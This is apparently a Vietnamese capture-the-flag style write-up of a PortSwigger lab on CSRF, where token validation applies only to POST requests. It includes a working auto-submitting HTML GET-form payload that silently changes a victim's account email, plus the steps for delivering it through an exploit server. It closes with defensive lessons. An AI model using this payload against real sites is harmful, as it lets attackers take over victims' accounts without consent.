

# Write-up: CSRF where token validation depends on request method

### Tổng quan
Khai thác lỗ hổng Cross-Site Request Forgery (CSRF) trong chức năng thay đổi email của ứng dụng, nơi kiểm tra CSRF token chỉ áp dụng cho phương thức POST mà không áp dụng cho phương thức GET. Ứng dụng cho phép gửi yêu cầu thay đổi email qua GET mà không yêu cầu token CSRF, dẫn đến khả năng thực hiện CSRF thông qua top-level navigation. Sử dụng payload HTML trong Exploit Server để gửi form GET giả mạo, thay đổi email của nạn nhân và hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng CSRF bằng cách gửi yêu cầu GET giả mạo đến `/my-account/change-email` mà không cần CSRF token, tận dụng cơ chế kiểm tra token yếu chỉ áp dụng cho POST, thay đổi email của nạn nhân và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập bằng tài khoản `wiener`:`peter` và thay đổi email thành `1111@gmail.com` tại `/my-account/change-email`:
    
- Quan sát:
    - Yêu cầu POST chứa tham số `csrf` trong body, yêu cầu token hợp lệ.
    - Cookie session không có thuộc tính `SameSite`, cho phép gửi trong các yêu cầu cross-site.

2. **Khai thác (Exploitation)**
- Sử dụng công cụ PoC của Burp Suite Professional để tạo payload CSRF gửi yêu cầu GET:
    ```html
    <html>
      <body>
        <form action="https://lab-id.web-security-academy.net/my-account/change-email">
          <input type="hidden" name="email" value="1212@gmail.com" />
          <input type="submit" value="Submit request" />
        </form>
        <script>
          history.pushState('', '', '/');
          document.forms[0].submit();
        </script>
      </body>
    </html>
    ```
    
- **Ý tưởng payload**:
    - Form sử dụng phương thức GET (mặc định khi không chỉ định method), gửi tham số `email=1212@gmail.com` đến `/my-account/change-email`.
    - Script `history.pushState('', '', '/')` thay đổi URL trình duyệt để tránh hiển thị URL đáng ngờ.
    - Script `document.forms[0].submit()` tự động gửi form, thực hiện yêu cầu GET giả mạo.
    - Cookie `session` của nạn nhân được gửi kèm do thiếu `SameSite` và yêu cầu GET được thực hiện trong top-level navigation.

- Gửi payload đến nạn nhân qua chức năng "Deliver exploit to victim" của Exploit Server:
    - **Kết quả**: Khi nạn nhân truy cập trang Exploit Server, form gửi yêu cầu GET, thay đổi email thành `1212@gmail.com` và hoàn thành lab.
      

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng CSRF bằng cách gửi yêu cầu GET giả mạo đến `/my-account/change-email` mà không cần CSRF token, tận dụng cơ chế kiểm tra token yếu chỉ áp dụng cho phương thức POST.
- Nhận thức tầm quan trọng của việc áp dụng kiểm tra CSRF token cho tất cả phương thức HTTP nhạy cảm, sử dụng token ngẫu nhiên và duy nhất, cấu hình `SameSite=Strict` hoặc `Lax` cho cookie để ngăn chặn các cuộc tấn công CSRF.

### Tài liệu tham khảo
- PortSwigger: Cross-Site Scripting (XSS)

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác CSRF bằng cách lợi dụng kiểm tra CSRF token yếu chỉ áp dụng cho POST, nhấn mạnh tầm quan trọng của việc áp dụng kiểm tra token cho mọi phương thức HTTP nhạy cảm, sử dụng token ngẫu nhiên, và cấu hình `SameSite` hợp lý để bảo vệ ứng dụng. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 8/2025.*